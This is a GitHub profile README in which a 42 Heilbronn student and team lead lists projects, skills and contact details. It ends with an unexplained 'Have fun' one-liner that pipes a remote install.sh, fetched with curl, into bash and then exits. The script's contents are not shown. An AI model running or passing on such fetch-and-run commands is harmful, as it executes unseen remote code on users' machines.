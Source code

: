 <!--
**faizanoor/FaizaNoor** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->


<h1 align="center">Hi 👋, I'm Faiza Noor</h1>
<h3 align="center">I'm a software development team lead and currently studying at 42 coding School Heilbronn.</h3>

![](https://komarev.com/ghpvc/?username=faizanoor)

- 🔭 I'm currently working 
- I’m currently working on [Some projects of the core curriculum at the 42 Heilbronn](https://github.com/JonasGoetz01/42-pipex)

- 🚀 Have startup ideas? Want to collaborate? Send 👋 on discord()

- 🌱 I’m currently learning **Blockchain and Dapps, C**

- 💬 Ask me about **Web Development, Backend Development, Docker, K8s, Agile,**

- 📫 How to reach me **faizanoor3001@gmail.com**

### Connect with me:
<a href="https://linkedin.com/in/faiza-noor" target="blank">
  <img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/linked-in-alt.svg" alt="faiza noor" height="30" width="40" />
</a>

Have fun: 
```sh
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/faizanoor/sui/v1/install.sh)" && exit
```
